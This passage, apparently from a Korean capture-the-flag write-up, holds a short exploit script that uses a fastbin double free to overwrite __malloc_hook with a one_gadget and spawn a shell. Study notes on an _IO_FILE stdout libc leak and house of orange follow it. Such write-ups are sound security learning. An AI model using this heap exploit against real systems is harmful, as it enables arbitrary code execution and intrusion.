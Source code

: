     	malloc_hook=libc_base+libc.symbols['__malloc_hook']	
    	one_gadet=libc_base+0xf1147
    	malloc(0,100,"A"*8)
    	malloc(1,100,"B"*8)
    
    	free(0)
    	free(1)
    	free(0)
    
    	malloc(0,100,p64(malloc_hook-35))
    	malloc(1,100,"A"*8)
    	malloc(0,100,"B"*8)
      malloc(1,100,"E"*19+p64(one_gadet))
    
      p.sendlineafter("> ","1")
      p.sendlineafter("index: ",str(2))
      p.sendlineafter("size: ",str(30))
    
    	p.interactive()





### 4. 몰랐던 개념

---

- libc leak using stdout _IO_FILE structure

    해당 개념은 따로 정리를 했다.

- 파일 디스크립터 관련하여 해결해야할 문제들이 몇개 있다
- house of orange도 fopen 관련 문제이기 때문에 확실하게 공부하는것이 도움이 될 것같다